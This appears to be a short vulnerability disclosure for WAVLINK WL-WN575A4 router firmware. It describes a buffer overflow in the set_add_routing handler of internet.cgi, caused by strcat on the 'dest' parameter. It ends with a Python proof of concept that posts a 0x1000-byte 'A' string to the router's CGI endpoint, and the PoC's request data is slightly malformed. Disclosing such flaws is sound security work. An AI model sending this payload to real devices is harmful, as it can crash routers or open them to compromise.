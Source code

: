 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in internet.cgi/set_add_routing

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](10.png)

get value from dest 

![](11.png)  
if v5 equal 'net', call strcat, causee buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page=set_add_routing&dest=' + payload + '&hostnet=net'})
``` 
